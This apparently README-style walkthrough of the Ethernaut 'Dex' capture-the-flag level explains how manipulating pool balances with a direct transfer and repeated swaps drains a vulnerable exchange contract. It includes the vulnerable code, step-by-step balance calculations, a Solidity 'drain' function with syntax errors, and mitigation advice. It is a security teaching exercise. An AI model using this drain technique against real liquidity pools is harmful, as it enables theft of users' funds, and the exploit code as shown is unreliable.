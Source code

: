 # Ethernaut Walkthrough: Dex
## Welcome to KweenBirb's 23rd installment of Ethernaut walkthroughs!

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Dex.sol, the 23rd challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in this directory and the .sol file in the src directory. Let's begin!

OpenZeppelin instructs us 'to hack the basic DEX contract below and steal the funds by price manipulation.` They later elaborate that the goal is to 'drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.'

Okay, wow! We're in the big leagues now huh? DeFi exploits on AMM liquidity pools! Let's get going, then.

## 







Swap price mechanism:

swap price is calculated by dividing newtoken balance by oldtoken balance, multiplied by amount of oldtoken supplied (where balances are this contract's):

function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}

in essence, where new is desired token and old is dumped token:

swapAmount = suppliedAmount * newBalance/oldBalance


Swap function mechanism:

swap function executes as following: 
1. limits parameters to only accept the two storage variables that store tokens for this pool;
2. checks to ensure msg.sender has enough old tokens to call function with provided uint amount
3. call function to set swapAmount = suppliedAmount * newBalance/oldBalance
4. call transferFrom on oldToken, transferring user-specified amount to dump into this contract pool
5. call approve on newToken, allowing this contract to spend swapAmount of desired token
6. call transferFrom on newToken, transferring previously approved swapAmount to msg.sender, completing the (d)exchange

function swap(address from, address to, uint amount) public {
    // limit this function execution to the two token addresses in storage
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    // ensure that msg.sender balance of tokens to dump is sufficient
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    // set swap price
    uint swapAmount = getSwapPrice(from, to, amount);
    // call transferFrom on oldToken, pulling supplied amount from msg.sender into this contract pool
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    // call approve on newToken, approving swapAmount for this contract to spend
    IERC20(to).approve(address(this), swapAmount);
    // call transferFrom on newToken, pushing swapAmount to msg.sender
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}


NOTE! XXX not solution
getSwapPrice() has NO REQUIRE CHECK and is PUBLIC; balanceOf() same thing too!
idea: deploy malicious erc20 contract, assign instance contract balanceOf() to return high and hacker balanceOf() to return low
doesn't work because parameters are sanitized by swap() require and then passed around- cannot change them within swap()


NOTE!
addLiquidity function is onlyOwner! hacker cannot add liquidity directly... therefore if our goal is to manipulate price and exploit getSwapPrice() we can not use addLiquidity()
but instead can change balanceOf(address(this)) underhandedly, in a way the dex doesn't expect:

    transfer() 10token1 to contract -> IERC20(token1).balanceOf(address(this)) == 110
        contract: 100 100 -> 110 100
        hacker:   10  10  -> 0   10
    therefore: swapAmount = 10 * 110 / 100  // 1.1 ratio means hacker can obtain 11token1 in exchange for 10token2
        contract: 110 100 -> 99 110
        hacker:   0   10  -> 11 0
    
    swap again:
    swapAmount = 11 * 110 / 99  // == 12.2 so hacker can exchange 11token1 for 12.2token2
        contract: 99 110 -> 110 97.8
        hacker:   11 0   -> 0   12.2

    again:
    swapAmount = 12.2 * 110 / 97.8  // == 13.7 so hacker can exchange 12.2token2 for 13.7token1
        contract: 110 97.8 -> 96.3 110
        hacker:   0   12.2 -> 13.7 0

    again:
    swapAmount = 13.7 * 110 / 96.3  // == 15.6 so hacker can exchange 13.7token1 for 15.6token2
        contract: 96.3 110 -> 110 94.4
        hacker:   13.7 0   -> 0   15.6

    again:
    swapAmount = 15.6 * 110 / 94.4  // == 18.2
        contract: 110 94.4 -> 91.8 110
        hacker:  0   15.6 -> 18.2 0

    again:
    swapAmount = 18.2 * 110/ 91.8  // == 21.8

You get the point- by causing an initial imbalance of assets in the pool, we can bundle repeated swap calls to leverage the imbalance so that it expands, draining the entire balance of one side of the pool. Abstracted into a repeatable equation, these operations can be represented as follows:

a = 10 * 110 / 100 // 11
a = 11 * 110 / 99 // 12.2
a = 12.2 * 110 / 97.8 // 13.7

f(b) = a * 110 / (110-a) // where a == f(b - 1)
thus:
f(a) = f(a-1) * 110 / (110 - f(a-1))


function to do precisely that:

Dex dex = Dex($your_ethernaut_instance_here);
address public token1 = $your_token1_address_here;
address public token2 = $your_token2_address_here;

function drain()) public {
    IERC20(token1).transfer(dex, 10);  // send 10token1 to dex contract
    while (dex.balanceOf(token1, dex) > 0 || dex.balanceOf(token2, dex) > 0) {
        
        balance = dex.balanceOf(token1, msg.sender);
        if (!balance) { 
            balance = dex.balanceOf(token2, msg.sender);
            dex.swap(token2, token1, balance);
        }

        dex.swap(token1, token2, balance);

    }
}

suggestions for improvement:
never rely on 
1. centralized data sources for price and liquidity calculations
2. recordkeeping via ```address(this)``` as it can be circumvented with transfers or selfdestruct()

implement decentralized oracle data feeds like those of Chainlink to replace ```balanceOf(address(this))``` calls.
